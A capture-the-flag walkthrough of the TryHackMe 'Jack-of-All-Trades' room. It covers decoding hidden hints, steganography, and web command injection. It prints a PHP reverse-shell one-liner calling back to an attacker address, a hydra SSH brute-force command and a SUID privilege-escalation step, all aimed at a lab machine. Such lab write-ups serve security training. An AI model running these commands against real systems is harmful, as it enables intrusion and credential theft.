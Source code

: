 ```bash
# PLATFORM          . THM
# CTF NAME          . Jack-of-All-Trades
# DESCRIPTION       . Boot-to-root originally designed for Securi-Tay 2020
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/jackofalltrades
```

```
sudo nmap -sSVC -T5 -p- 10.10.63.6 -oN jack
```

```
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.4.10 (Debian)

80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13b7f0a114e2d32540ff4b9460c5003d (DSA)
|   2048 910cd643d940c388b1be350bbcb99088 (RSA)
|   256 a3fb09fb5080718f931f8d43971edcab (ECDSA)
|_  256 6521e74e7c5ae7bcc6ff68caf1cb75e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- :) Swapped the ports, I see. Firefox (probably other browsers too) denies traffic to known service ports.


> _This address uses a network port which is normally used for purposes other than Web browsing. Firefox has canceled the request for your protection._


- To allow port 22, open a new tab. In the url, type `config:about`. 

- Search for `network.security.ports.banned.override`. 

	- If it exists, add `,22` (no space before the comma) to the values already existing. 
	- If not, click on the `+` on the right side and create the rule. Add `22` as a value.


#### PORT 22 (yes, not SSH)


- At the end of the message, the user signed up as `Jack`, so we have a potential username.

- Check out the source code

```
!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->			
```

- That string is base64-encoded. Let's decode it.

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: {REDACTED}
```

- Going to the recovery page, I've got no result by using `jack` as the username with the password found earlier.

- In the source code I found

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
```

- Which is base32 encoded. The result is in hex. After decoding from hex, the result is encoded using ROT13, so it needs another decoding before revealing the following message.

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

The [link](https://en.wikipedia.org/wiki/Stegosauria) is the wikipedia page of a dinosaur. 

- I went down a rabbit hole here. So I was thinking that the username is probably some dinosaur name from that page ... so I've used `cewl` to craft a wordlist.

- Then, I wanted to use hydra with that, but there wasn't any error message desplayed when incorrect credentials were used, so I couldn't use the `http-post-form` feature of Hydra.

- Then, I wanted to do a time-based or event content-length check for each word ending in `*urus` (~91) and the password I had. 

- While I was scripting ... it hit me. The page is called **STEGO**sauria. The **STEGO**saurus image on the main page is called *STEGO.jpg* :|

- Ok, so I've downloaded the `stego.jpg` image and used `stegcrack --extract -sf` on it with the password I had

```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

- Alright. I've tried the same for `header.jpg` and `jackinthebox.jpg` and I was lucky with the first one.

```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: {REDACTED}
```

- Now, these are NOT the credentials for SSH. They're the credentials for the recovery page.

```
GET me a 'cmd' and I'll run it for you Future-Jack.
```

- So we have the `?cmd=` parameter available to run commands.

- I've used the following reverse shell but encoded as URL

```
php -r '$sock=fsockopen("ip",3131);shell_exec("sh <&3 >&3 2>&3");'
```

- I wanted to check for SUID files after stabilised the shell as `www-data`, but I didn't had permission to use `find` so I took a look in `/home`.

- There I could find a password list for user `jack`. 

- Knowing that, I've used hydra to bruteforce his SSH credentials

```
hydra -l jack -P pl ssh://10.10.63.6 -s 80
```

```
[80][ssh] host: 10.10.63.6   login: jack   password: {REDACTED}>@
```

- The first flag is located in the `/home/jack/user.jpg` image. 

```
scp -P 80 jack@10.10.63.6:/home/jack/user.jpg user.jpg
```

- The second flag is located in `/root/root.txt`. 

- Looking for privilege escalation vectors, I've found out that `strings` binary has the SUID bit set. 

- We can leverage that to read `/root/root.txt` flag directly.


